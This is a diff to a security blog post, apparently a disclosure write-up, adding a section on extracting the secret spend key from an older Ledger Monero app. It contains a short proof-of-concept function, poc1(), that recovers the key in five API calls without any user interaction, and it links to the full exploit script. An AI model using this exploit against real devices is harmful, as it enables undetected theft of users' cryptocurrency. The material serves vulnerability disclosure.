

Before and after one commit to yolosec/deadcodeBlog, a Jekyll site: the page built from _posts/2020-04-25-Ledger-Monero-app-spend-key-extraction.markdown, in a window 1280 px wide and 1400 px high, scrolled down 2872 px. Shown: the whole window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; formulas are drawn with MathJax 3; before the commit the page ends 3481 px from its top, so only the background shows below that.

Commit message:
add PoC1

````diff
--- a/_posts/2020-04-25-Ledger-Monero-app-spend-key-extraction.markdown
+++ b/_posts/2020-04-25-Ledger-Monero-app-spend-key-extraction.markdown
@@ -107,6 +107,47 @@ If we could just pass \\(k^s = \\) `b` to the `decrypt_oracle` we won. But there
 
 ### Spend key extraction
 
+There are few operations which enable work with stored spend and view keys. If such operations find
+32 B placeholders `C_FAKE_SEC_VIEW_KEY`, `C_FAKE_SEC_SPEND_KEY` in the input, the real values are substituted to the input buffer so the operation works with the real values. The palceholders are known to the software wallet once transaction signing started, so the signing protocol can work with these secret values. Function taking care of the substitution is: [`monero_io_fetch_decrypt_key`](https://github.com/ph4r05/blue-app-monero/blob/7d6c5f5573c4c83fe74dcbb3fe6591489bae7828/src/monero_io.c#L258). The `mlsag_sign` operation does not support the placeholders so we need to find another function suitable for the spend key extraction.
+
+Observe the [`derive_secret_key`](https://github.com/ph4r05/blue-app-monero/blob/7d6c5f5573c4c83fe74dcbb3fe6591489bae7828/src/monero_key.c#L574):
+
+```python
+def derive_secret_key(
+        derivation: SealedPoint,
+        index: int,
+        secret: SealedScalar
+    ) -> SealedScalar:
+    D = hmac_and_decrypt(derivation)
+    s = monero_io_fetch_decrypt_key(secret)  # Placeholder
+    r = Hs(D || varint(index)) + s
+    res = encrypt_and_hmac(r, spk, hk)
+    return res
+```
+
+The function computes \\(r=\mathcal{H}\_s(D \; \|\| \; \text{index}) + s\\), where \\(\mathcal{H}\_s: \\{0,1\\}^* \rightarrow \mathbb{Z}^{\*}\_{l} \\) is a hash function to scalars and `||` is a binary concatenation.
+
+As you noticed, there is no difference between point and scalar encryption, thus we can use them interchangeably.
+If we know the value of the \\(D\\) (one known value is encryption of zero) we also known the value of \\(\mathcal{H}\_s(D \; \|\| \; \text{index})\\). Thus we can compute \\(s = r - \mathcal{H}\_s(D \; \|\| \; \text{index})\\).
+
+Spend key extraction is thus:
+
+```python
+def poc1():
+    C_FAKE_SEC_SPEND_KEY = monero_apdu_open_tx()
+    x, X = generate_keypair()  # enc scalar, clear point
+    zero = sc_sub(x, x)
+    r = derive_secret_key(zero, 0, C_FAKE_SEC_SPEND_KEY)
+    rr = mlsag_sign(r, zero)
+    b = r - H_s("\x00"*32 + "\x00")
+    return b
+```
+
+The spend key `b` is extracted from the Monero app with just 5 API calls. No user interaction is needed, Ledger does not change any state or change the display so the attack is unobservable by a normal user.
+
+The PoC demonstrating the vulnerability is [here](https://github.com/ph4r05/ledger-app-monero-1.42-vuln/blob/3e615bbfe4c4112ddc9e4099a1ba8378f37ab90b/poc.py#L114).
+
+
 
 
 [Ledger]: https://www.ledger.com
````
